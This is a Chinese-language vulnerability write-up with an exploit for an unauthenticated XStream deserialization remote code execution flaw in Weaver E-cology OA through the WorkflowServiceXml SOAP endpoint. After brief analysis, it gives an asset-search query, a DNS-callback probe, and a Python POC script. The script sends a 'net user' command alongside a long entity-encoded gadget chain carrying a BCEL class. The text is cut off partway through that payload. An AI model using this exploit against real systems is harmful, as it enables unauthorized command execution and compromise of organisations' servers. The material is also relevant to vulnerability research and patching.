









# 泛微OA E-cology WorkflowServiceXml RCE

## 漏洞描述

泛微E-cology OA系统的WorkflowServiceXml接口可被未授权访问，攻击者调用该接口，可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程代码执行

## 漏洞影响

```
E-cology <= 9.0
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

漏洞原理来源

https://www.anquanke.com/post/id/239865

根据流量可以得知路由为`/services%20/WorkflowServiceXml`，我随即查看了该OA的web.xml。





发现了相关类为`weaver.workflow.webservices.WorkflowServiceXml`、`weaver.workflow.webservices.WorkflowServiceImplXml`。
关于类的东西先放到一旁，毕竟路由是否真实存在、`%20`有什么意义才是重点。我开始验证路由的存在。这里我测试了两个版本。





带上`%20`试试



根据这个response可以看出这应该是一个soap xml注入，具体是XMLDecoder、XStream或者其他什么，还得看`weaver.workflow.webservices.WorkflowServiceXml`、`weaver.workflow.webservices.WorkflowServiceImplXml`.
首先，先看看`weaver.workflow.webservices.WorkflowServiceXml`




可以注意到这是一个接口类，其中一个方法`doCreateWorkflowRequest`比较可疑。

去`weaver.workflow.webservices.WorkflowServiceImplXml`看看这个方法的实现。



继续跟踪看看


这个xs咋看起来这么眼熟？看看xs是个啥，一般Java可能会定义在代码文件最上方。



原来xs是`XStream`的对象

既然决定了sink点，下一步肯定是POC的撰写了，先确定SOAP基本模板。
根据朋友给的流量可以确定基本SOAP消息体模板大致是这样的。

```plain
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.services.weaver.com.cn">
   <soapenv:Header/>
   <soapenv:Body>
      <web:doCreateWorkflowRequest>
    <web:string></web:string>
        <web:string>2</web:string>
      </web:doCreateWorkflowRequest>
   </soapenv:Body>
</soapenv:Envelope>
```



验证成功。
接下来就是寻找gadget了。
由于并没有完整源码，只有部分github源码，不能确定gadget，先使用URLDNS试试。

```plain
<map>
  <entry>
    <url>http://1xsz12.dnslog.cn</url>
    <string>http://1xsz12.dnslog.cn</string>
  </entry>
</map>
```

组合我们的模板试试。
这里涉及到实体编码问题，作为懒人直接选择整体编码算了。




随后dnslog成功收到请求。



## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 泛微E-Cology WorkflowServiceXml RCE                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/services%20/WorkflowServiceXml"
    cmd = "net user"
    headers = {
        'User-Agent': 'Apache-HttpClient/4.1.1 (java 1.5)',
        'SOAPAction': '""',
        'Cmd': cmd,
        "Content-Type": "text/xml;charset=UTF-8"
    }
    data = '''<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.services.weaver.com.cn">
       <soapenv:Header/>
       <soapenv:Body>
          <web:doCreateWorkflowRequest>    <web:string>
    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.services.weaver.com.cn">
       <soapenv:Header/>
       <soapenv:Body>
          <web:doCreateWorkflowRequest>    <web:string>
    &#x3c;&#x6a;&#x61;&#x76;&#x61;&#x2e;&#x75;&#x74;&#x69;&#x6c;&#x2e;&#x50;&#x72;&#x69;&#x6f;&#x72;&#x69;&#x74;&#x79;&#x51;&#x75;&#x65;&#x75;&#x65;&#x20;&#x73;&#x65;&#x72;&#x69;&#x61;&#x6c;&#x69;&#x7a;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x3d;&#x27;&#x63;&#x75;&#x73;&#x74;&#x6f;&#x6d;&#x27;&#x3e;&#x0a;&#x20;&#x20;&#x3c;&#x75;&#x6e;&#x73;&#x65;&#x72;&#x69;&#x61;&#x6c;&#x69;&#x7a;&#x61;&#x62;&#x6c;&#x65;&#x2d;&#x70;&#x61;&#x72;&#x65;&#x6e;&#x74;&#x73;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x3c;&#x6a;&#x61;&#x76;&#x61;&#x2e;&#x75;&#x74;&#x69;&#x6c;&#x2e;&#x50;&#x72;&#x69;&#x6f;&#x72;&#x69;&#x74;&#x79;&#x51;&#x75;&#x65;&#x75;&#x65;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x64;&#x65;&#x66;&#x61;&#x75;&#x6c;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x73;&#x69;&#x7a;&#x65;&#x3e;&#x32;&#x3c;&#x2f;&#x73;&#x69;&#x7a;&#x65;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x63;&#x6f;&#x6d;&#x70;&#x61;&#x72;&#x61;&#x74;&#x6f;&#x72;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x6a;&#x61;&#x76;&#x61;&#x66;&#x78;&#x2e;&#x63;&#x6f;&#x6c;&#x6c;&#x65;&#x63;&#x74;&#x69;&#x6f;&#x6e;&#x73;&#x2e;&#x4f;&#x62;&#x73;&#x65;&#x72;&#x76;&#x61;&#x62;&#x6c;&#x65;&#x4c;&#x69;&#x73;&#x74;&#x24;&#x31;&#x27;&#x2f;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x2f;&#x64;&#x65;&#x66;&#x61;&#x75;&#x6c;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x69;&#x6e;&#x74;&#x3e;&#x33;&#x3c;&#x2f;&#x69;&#x6e;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x63;&#x6f;&#x6d;&#x2e;&#x73;&#x75;&#x6e;&#x2e;&#x78;&#x6d;&#x6c;&#x2e;&#x69;&#x6e;&#x74;&#x65;&#x72;&#x6e;&#x61;&#x6c;&#x2e;&#x62;&#x69;&#x6e;&#x64;&#x2e;&#x76;&#x32;&#x2e;&#x72;&#x75;&#x6e;&#x74;&#x69;&#x6d;&#x65;&#x2e;&#x75;&#x6e;&#x6d;&#x61;&#x72;&#x73;&#x68;&#x61;&#x6c;&#x6c;&#x65;&#x72;&#x2e;&#x42;&#x61;&#x73;&#x65;&#x36;&#x34;&#x44;&#x61;&#x74;&#x61;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x64;&#x61;&#x74;&#x61;&#x48;&#x61;&#x6e;&#x64;&#x6c;&#x65;&#x72;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x64;&#x61;&#x74;&#x61;&#x53;&#x6f;&#x75;&#x72;&#x63;&#x65;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x63;&#x6f;&#x6d;&#x2e;&#x73;&#x75;&#x6e;&#x2e;&#x78;&#x6d;&#x6c;&#x2e;&#x69;&#x6e;&#x74;&#x65;&#x72;&#x6e;&#x61;&#x6c;&#x2e;&#x77;&#x73;&#x2e;&#x65;&#x6e;&#x63;&#x6f;&#x64;&#x69;&#x6e;&#x67;&#x2e;&#x78;&#x6d;&#x6c;&#x2e;&#x58;&#x4d;&#x4c;&#x4d;&#x65;&#x73;&#x73;&#x61;&#x67;&#x65;&#x24;&#x58;&#x6d;&#x6c;&#x44;&#x61;&#x74;&#x61;&#x53;&#x6f;&#x75;&#x72;&#x63;&#x65;&#x27;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x63;&#x6f;&#x6e;&#x74;&#x65;&#x6e;&#x74;&#x54;&#x79;&#x70;&#x65;&#x3e;&#x74;&#x65;&#x78;&#x74;&#x2f;&#x70;&#x6c;&#x61;&#x69;&#x6e;&#x3c;&#x2f;&#x63;&#x6f;&#x6e;&#x74;&#x65;&#x6e;&#x74;&#x54;&#x79;&#x70;&#x65;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x69;&#x73;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x6a;&#x61;&#x76;&#x61;&#x2e;&#x69;&#x6f;&#x2e;&#x53;&#x65;&#x71;&#x75;&#x65;&#x6e;&#x63;&#x65;&#x49;&#x6e;&#x70;&#x75;&#x74;&#x53;&#x74;&#x72;&#x65;&#x61;&#x6d;&#x27;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x65;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x6a;&#x61;&#x76;&#x61;&#x78;&#x2e;&#x73;&#x77;&#x69;&#x6e;&#x67;&#x2e;&#x4d;&#x75;&#x6c;&#x74;&#x69;&#x55;&#x49;&#x44;&#x65;&#x66;&#x61;&#x75;&#x6c;&#x74;&#x73;&#x24;&#x4d;&#x75;&#x6c;&#x74;&#x69;&#x55;&#x49;&#x44;&#x65;&#x66;&#x61;&#x75;&#x6c;&#x74;&#x73;&#x45;&#x6e;&#x75;&#x6d;&#x65;&#x72;&#x61;&#x74;&#x6f;&#x72;&#x27;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x69;&#x74;&#x65;&#x72;&#x61;&#x74;&#x6f;&#x72;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x63;&#x6f;&#x6d;&#x2e;&#x73;&#x75;&#x6e;&#x2e;&#x74;&#x6f;&#x6f;&#x6c;&#x73;&#x2e;&#x6a;&#x61;&#x76;&#x61;&#x63;&#x2e;&#x70;&#x72;&#x6f;&#x63;&#x65;&#x73;&#x73;&#x69;&#x6e;&#x67;&#x2e;&#x4a;&#x61;&#x76;&#x61;&#x63;&#x50;&#x72;&#x6f;&#x63;&#x65;&#x73;&#x73;&#x69;&#x6e;&#x67;&#x45;&#x6e;&#x76;&#x69;&#x72;&#x6f;&#x6e;&#x6d;&#x65;&#x6e;&#x74;&#x24;&#x4e;&#x61;&#x6d;&#x65;&#x50;&#x72;&#x6f;&#x63;&#x65;&#x73;&#x73;&#x49;&#x74;&#x65;&#x72;&#x61;&#x74;&#x6f;&#x72;&#x27;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x6e;&#x61;&#x6d;&#x65;&#x73;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x6a;&#x61;&#x76;&#x61;&#x2e;&#x75;&#x74;&#x69;&#x6c;&#x2e;&#x41;&#x62;&#x73;&#x74;&#x72;&#x61;&#x63;&#x74;&#x4c;&#x69;&#x73;&#x74;&#x24;&#x49;&#x74;&#x72;&#x27;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x63;&#x75;&#x72;&#x73;&#x6f;&#x72;&#x3e;&#x30;&#x3c;&#x2f;&#x63;&#x75;&#x72;&#x73;&#x6f;&#x72;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x6c;&#x61;&#x73;&#x74;&#x52;&#x65;&#x74;&#x3e;&#x2d;&#x31;&#x3c;&#x2f;&#x6c;&#x61;&#x73;&#x74;&#x52;&#x65;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x65;&#x78;&#x70;&#x65;&#x63;&#x74;&#x65;&#x64;&#x4d;&#x6f;&#x64;&#x43;&#x6f;&#x75;&#x6e;&#x74;&#x3e;&#x30;&#x3c;&#x2f;&#x65;&#x78;&#x70;&#x65;&#x63;&#x74;&#x65;&#x64;&#x4d;&#x6f;&#x64;&#x43;&#x6f;&#x75;&#x6e;&#x74;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x6f;&#x75;&#x74;&#x65;&#x72;&#x2d;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x6a;&#x61;&#x76;&#x61;&#x2e;&#x75;&#x74;&#x69;&#x6c;&#x2e;&#x41;&#x72;&#x72;&#x61;&#x79;&#x73;&#x24;&#x41;&#x72;&#x72;&#x61;&#x79;&#x4c;&#x69;&#x73;&#x74;&#x27;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x61;&#x20;&#x63;&#x6c;&#x61;&#x73;&#x73;&#x3d;&#x27;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x2d;&#x61;&#x72;&#x72;&#x61;&#x79;&#x27;&#x3e;&#x0a;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x3c;&#x73;&#x74;&#x72;&#x69;&#x6e;&#x67;&#x3e;&#x24;&#x24;&#x42;&#x43;&#x45;&#x4c;&#x24;&#x24;&#x24;&#x6c;&#x24;&#x38;&#x62;&#x24;&#x49;&#x24;&#x41;&#x24;&#x41;&#x24;&#x41;&#x24;&#x41;&#x24;&#x41;&#x24;&#x41;&#x24;&#x41;&#x24;&#x38;&#x35;&#x56;&#x24;&#x35;&#x62;&#x57;&#x24;&#x54;&#x57;&#x24;&#x55;&#x24;&#x66;&#x65;&#x24;&#x38;&#x36;&#x24;&#x71;&#x24;&#x63;&#x63;&#x30;&#x24;&#x4d;&#x24;&#x38;&#x32;&#x41;&#x24;&#x38;&#x34;&#x24;&#x61;&#x38;&#x24;&#x62;&#x64;&#x24;&#x64;&#x38;&#x56;&#x24;&#x4e;&#x24;&#x75;&#x24;&#x38;&#x39;&#x24;&#x64;&#x36;&#x24;&#x64;&#x65;&#x24;&#x4d;&#x24;&#x64;&#x36;&#x24;&#x38;&#x61;&#x24;&#x35;&#x63;&#x24;&#x65;&#x61;&#x24;&#x72;&#x24;&#x61;&#x30;&#x35;&#x24;&#x55;&#x24;&#x78;&#x24;&#x64;&#x61;&#x24;&#x65;&#x61;&#x30;&#x24;&#x69;&#x61;&#x24;&#x71;&#x24;&#x39;&#x39;&#x24;&#x38;&#x39;&#x24;&#x39;&#x33;&#x24;&#x4a;&#x50;&#x24;&#x37;&#x62;&#x24;&#x62;&#x31;&#x24;&#x61;&#x64;&#x24;&#x62;&#x64;&#x24;&#x64;&#x66;&#x24;&#x65;&#x66;&#x24;&#x61;&#x64;&#x24;&#x62;&#x64;&#x24;&#x62;&#x63;&#x24;&#x66;&#x38;&#x24;&#x65;&#x32;&#x53;&#x24;&#x6c;&#x24;&#x35;&#x63;&#x24;&#x61;&#x62;&#x24;&#x78;&#x6a;&#x24;&#x35;&#x62;&#x24;&#x62;&#x62;&#x24;&#x64;&#x61;&#x24;&#x33;&#x65;&#x24;&#x66;&#x36;&#x47;&#x69;&#x24;&#x62;&#x66;&#x33;&#x24;&#x4a;&#x24;&#x39;&#x34;&#x24;&#x39;&#x30;&#x24;&#x61;&#x38;&#x24;&#x61;&#x63;&#x24;&#x63;&#x35;&#x24;&#x39;&#x39;&#x39;&#x24;&#x66;&#x62;&#x24;&#x37;&#x63;&#x24;&#x66;&#x62;&#x24;&#x66;&#x36;&#x24;&#x65;&#x64;&#x24;&#x62;&#x64;&#x4f;&#x24;&#x65;&#x36;&#x24;&#x64;&#x66;&#x24;&#x35;&#x62;&#x24;&#x62;&#x66;&#x24;&#x66;&#x64;&#x24;&#x4a;&#x24;&#x65;&#x30;&#x31;&#x24;&#x66;&#x63;&#x24;&#x61;&#x63;&#x24;&#x61;&#x33;&#x24;&#x4a;&#x24;&#x38;&#x37;&#x74;&#x24;&#x61;&#x34;&#x31;&#x24;&#x6f;&#x24;&#x39;&#x37;&#x51;&#x24;&#x4e;&#x24;&#x38;&#x37;&#x75;&#x24;&#x69;&#x24;&#x63;&#x31;&#x73;&#x24;&#x67;&#x24;&#x38;&#x65;&#x24;&#x61;&#x61;&#x24;&#x63;&#x38;&#x24;&#x65;&#x38;&#x50;&#x31;&#x24;&#x61;&#x36;&#x24;&#x65;&#x32;&#x79;&#x24;&#x6a;&#x24;&#x65;&#x33;&#x38;&#x24;&#x73;&#x24;&#x39;&#x31;&#x24;&#x5f;&#x48;&#x24;&#x63;&#x39;&#x71;&#x24;&#x4e;&#x24;&#x54;&#x24;&#x66;&#x32;&#x79;&#x42;&#x24;&#x63;&#x37;&#x49;&#x24;&#x62;&#x63;&#x24;&#x75;&#x24;&#x39;&#x37;&#x24;&#x39;&#x37;&#x34;&#x24;&#x39;&#x63;&#x52;&#x71;&#x5a;&#x24;&#x38;&#x33;&#x24;&#x61;&#x39;&#x24;&#x70;&#x24;&#x38;&#x61;&#x49;&#x24;&#x4e;&#x24;&#x39;&#x36;&#x24;&#x38;&#x61;&#x24;&#x76;&#x24;&#x4e;&#x24;&#x76;&#x24;&#x56;&#x42;&#x24;&#x63;&#x37;&#x24;&#x5a;&#x4c;&#x24;&#x63;&#x62;&#x65;&#x46;&#x24;&#x38;&#x37;&#x24;&#x38;&#x64;&#x24;&#x62;&#x33;&#x24;&#x33;&#x61;&#x24;&#x62;&#x61;&#x30;&#x24;&#x61;&#x62;&#x24;&#x6e;&#x24;&#x78;&#x24;&#x39;&#x66;&#x39;&#x24;&#x62;&#x39;&#x38;&#x72;&#x71;&#x35;&#x24;&#x65;&#x34;&#x55;&#x24;&#x39;&#x63;&#x24;&#x64;&#x33;&#x24;&#x66;&#x31;&#x24;&#x51;&#x24;&#x33;&#x63;&#x24;&#x56;&#x24;&#x46;&#x24;&#x46;&#x24;&#x38;&#x64;&#x24;&#x62;&#x62;&#x6d;&#x24;&#x63;&#x37;&#x24;&#x66;&#x36;&#x24;&#x66;&#x37;&#x24;&#x75;&#x24;&#x49;&#x24;&#x63;&#x35;&#x24;&#x62;&#x62;&#x24;&#x63;&#x37;&#x24;&#x56;&#x24;&#x38;&#x34;&#x24;&#x48;&#x24;&#x64;&#x63;&#x24;&#x76;&#x24;&#x61;&#x31;&#x24;&#x61;&#x30;&#x35;&#x6d;&#x24;&#x33;&#x62;&#x62;&#x24;&#x62;&#x34;&#x24;&#x39;&#x38;&#x24;&#x39;&#x62;&#x24;&#x55;&#x24;&#x64;&#x65;&#x24;&#x39;&#x38;&#x39;&#x24;&#x39;&#x39;&#x24;&#x61;&#x35;&#x24;&#x71;&#x24;&#x39;&#x61;&#x76;&#x24;&#x7a;&#x33;&#x24;&#x33;&#x62;&#x6e;&#x7a;&